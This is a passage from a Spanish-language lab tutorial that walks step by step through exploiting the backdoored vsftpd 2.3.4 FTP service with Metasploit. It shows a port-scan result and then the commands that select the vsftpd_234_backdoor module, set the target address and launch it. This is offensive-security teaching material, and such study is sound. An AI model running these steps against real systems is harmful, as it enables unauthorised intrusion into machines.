 Ejemplo de resultado:

```
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
```

> 🎯 El puerto 21 está abierto y tiene una versión de `vsftpd` vulnerable.

---

#### 🧪 Paso 2: Iniciar Metasploit

```bash
msfconsole
```

---

#### 🧪 Paso 3: Buscar el exploit

```bash
search vsftpd 2.3.4
```

Resultado:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

---

#### 🧪 Paso 4: Usar el exploit

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

---

#### 🧪 Paso 5: Configurar el objetivo

```bash
set RHOST 192.168.1.105
```

> Si necesitas configurar el puerto:

```bash
set RPORT 21
```

---

#### 🧪 Paso 6: Ejecutar el exploit

```bash
exploit
```
